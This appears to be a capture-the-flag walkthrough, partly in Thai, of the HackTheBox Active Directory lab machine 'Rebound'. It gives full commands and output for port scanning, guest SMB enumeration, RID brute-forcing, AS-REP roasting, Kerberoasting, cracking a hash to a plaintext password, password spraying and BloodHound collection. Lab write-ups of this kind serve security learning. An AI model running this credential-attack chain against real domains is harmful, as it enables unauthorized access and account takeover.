




# Recon 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo ../Tools/scan.sh 10.10.11.231 
[sudo] password for kali: 
[*] Running rustscan...
[*] Running nmap on ports: 53,88,135,139,389,445,464,5985,636,593,9389,47001,49667,49673,49690,49691,49692,49705,49720,49666,49664,49665,49741
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-07 08:32 EDT
Nmap scan report for 10.10.11.231
Host is up (0.062s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-07 19:11:05Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
|_ssl-date: 2025-06-07T19:12:11+00:00; +6h38m23s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
|_ssl-date: 2025-06-07T19:12:10+00:00; +6h38m22s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
49720/tcp open  msrpc         Microsoft Windows RPC
49741/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h38m22s, deviation: 0s, median: 6h38m21s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-07T19:12:02
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.47 seconds
```

แก้ไข /etc/hosts 
```
10.10.11.231 dc01 rebound.htb dc01.rebound.htb
```

## SMB TCP 445

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ netexec smb 10.10.11.231
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)                                                                                                                                        
┌──(kali㉿kali)-[~/Desktop]
└─$ netexec smb 10.10.11.231 -u guest -p '' --shares
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)                                                                                                                                                          
SMB         10.10.11.231    445    DC01             [+] rebound.htb\guest: 
SMB         10.10.11.231    445    DC01             [*] Enumerated shares
SMB         10.10.11.231    445    DC01             Share           Permissions     Remark
SMB         10.10.11.231    445    DC01             -----           -----------     ------
SMB         10.10.11.231    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.231    445    DC01             C$                              Default share
SMB         10.10.11.231    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.231    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.11.231    445    DC01             Shared          READ            
SMB         10.10.11.231    445    DC01             SYSVOL                          Logon server share 
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop]
└─$ 

```

ตรวจสอบ users ด้วย RID burteforce 
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ netexec smb 10.10.11.231 -u guest -p '' --rid-brute
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.231    445    DC01             [+] rebound.htb\guest: 
SMB         10.10.11.231    445    DC01             498: rebound\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.231    445    DC01             500: rebound\Administrator (SidTypeUser)
SMB         10.10.11.231    445    DC01             501: rebound\Guest (SidTypeUser)
SMB         10.10.11.231    445    DC01             502: rebound\krbtgt (SidTypeUser)
SMB         10.10.11.231    445    DC01             512: rebound\Domain Admins (SidTypeGroup)
SMB         10.10.11.231    445    DC01             513: rebound\Domain Users (SidTypeGroup)
SMB         10.10.11.231    445    DC01             514: rebound\Domain Guests (SidTypeGroup)
SMB         10.10.11.231    445    DC01             515: rebound\Domain Computers (SidTypeGroup)
SMB         10.10.11.231    445    DC01             516: rebound\Domain Controllers (SidTypeGroup)
SMB         10.10.11.231    445    DC01             517: rebound\Cert Publishers (SidTypeAlias)
SMB         10.10.11.231    445    DC01             518: rebound\Schema Admins (SidTypeGroup)
SMB         10.10.11.231    445    DC01             519: rebound\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.231    445    DC01             520: rebound\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.231    445    DC01             521: rebound\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.231    445    DC01             522: rebound\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.231    445    DC01             525: rebound\Protected Users (SidTypeGroup)
SMB         10.10.11.231    445    DC01             526: rebound\Key Admins (SidTypeGroup)
SMB         10.10.11.231    445    DC01             527: rebound\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.231    445    DC01             553: rebound\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.231    445    DC01             571: rebound\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.231    445    DC01             572: rebound\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.231    445    DC01             1000: rebound\DC01$ (SidTypeUser)
SMB         10.10.11.231    445    DC01             1101: rebound\DnsAdmins (SidTypeAlias)
SMB         10.10.11.231    445    DC01             1102: rebound\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.231    445    DC01             1951: rebound\ppaul (SidTypeUser)
SMB         10.10.11.231    445    DC01             2952: rebound\llune (SidTypeUser)
SMB         10.10.11.231    445    DC01             3382: rebound\fflock (SidTypeUser)
                                                                                                           
```


ดึง Users ด้วย Impacket-lookupsid 
```bash
impacket-lookupsid -no-pass 'guest@rebound.htb' 8000 | grep SidTypeUser | cut -d' ' -f2 | cut -d'\' -f2 | tee users 
Administrator
Guest
krbtgt
DC01$
ppaul
llune
fflock
jjones
mmalone
nnoon
ldap_monitor
oorend
winrm_svc
batch_runner
tbrady
delegator$
```

# AS-Rep Roaster

```bash
impacket-GetNPUsers -usersfile users rebound.htb/ -dc-ip 10.10.11.231 
```


เราได้ข้อมูลของ as-rep hash กลับมาแต่เมื่อทดสอบ Crack จะพบว่าไม่สามารถ Crack ได้ 

```bash
$krb5asrep$23$jjones@REBOUND.HTB:314a8fba96c7667f607e4fa425880ea5$4638f465dd2d1f00c44f000b59800349e061c3ff019d71ea0a6bdb1b966a0e7e8a90547a7dfb7a5524b2859e9b933eccb99dd6f5b778a0c430b3cb645949105a28d5a00aab8460b11129a8b1b38b5f737e4be226a543990cb0f2dcdc3b6d25d239245641e3d11f49a64cf4acc6c66ae83a01c45f0c0a1b64ae2cb68edef83b2b8c1de9bf28f13bdf998c1de2cc9f5d2c8eb320d5a03720b4512a38647d6c4f42886363981e1e37295ec46aee404fbe7cd3deed135e070f7d73201479ac23092a648d04d770685c506f571f529cce24898880817ac29c79ba4152f31ee1ab9c8472c113c1c71a9c98ce8b

hashcat -m $(haiti - < hash | grep -oP '\[HC: \K\d+' | head -n1) -a 0 hash /usr/share/wordlists/rockyou.txt
```

คำสั่งต่อไปนี้ใช้ในการดึงข้อมูล AS-REP (Authentication Service Response) จากเซิร์ฟเวอร์ LDAP ซึ่งในที่นี้คือ Windows Server ที่มีการใช้งาน Kerberos สำหรับการพิสูจน์ตัวตน โดยคำสั่งนี้จะช่วยให้สามารถดึงข้อมูลที่เกี่ยวกับการตรวจสอบสิทธิ์ (authentication) สำหรับผู้ใช้ที่เชื่อมต่อกับเซิร์ฟเวอร์ LDAP ที่มีการตั้งค่า Kerberos ให้ระบุไว้ในคำสั่ง
```bash
netexec ldap 10.10.11.231 -u users -p '' --asreproast asrephashes.txt
LDAP        10.10.11.231    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
LDAP        10.10.11.231    389    DC01             $krb5asrep$23$jjones@REBOUND.HTB:331478c71e23188ade0984fdfe302eec$e80d65fd031bc0e2935717e972b4cda25552e9d27ed22a85ad9be92e9af1a59821b708895d293954cf6aa61d63008e92aa44c1a4ba6f360a51ef898bb0a05599f9db2afead4fa4c97bec1b7f7f1b5ef26a9899fe8366e7daa5bfa98549bcc635a155ce5a77fe30710a188264c41e10bf18029e00af16c2e2cb84e9153c396a3df9426801dcee7c15d615a8971013a5a35c0214a1f18613ba040a0576ff4548276d18e13255294f6dc192684e81d4de93a7f9d3c20957c74ca49e04105c4ec7e68e92e1ad0ff8264c5d71323e886a41bcc8c257c63d190bdd329392583d498ec9ce81f163520d0d55e9ab             
```

# Kerberoster 

```bash
impacket-GetUserSPNs -no-preauth jjones -usersfile users -dc-host 10.10.11.231 rebound.htb/

# เก็บข้อมูล Hash 
impacket-GetUserSPNs -no-preauth jjones -usersfile users -dc-host 10.10.11.231 rebound.htb/ | grep '^\$krb' > kerberoasting_hashes
```

## Crack 
```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1GR8t@$$4u       (?)     
1g 0:00:00:05 DONE (2025-06-07 08:52) 0.1956g/s 2552Kp/s 2552Kc/s 2552KC/s 1causey..1BLESSING
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



# Password Spray 
```bash 
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service rebound.htb  -u users -p '1GR8t@$$4u' --continue-on-success ; done
```



# Collect Bloodhound 
```bash
bloodhound-python -d rebound.htb -c all -u oorend -p '1GR8t@$$4u' -ns 10.10.11.231 --zip
```


# PowerView as oorend 
```bash
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb
```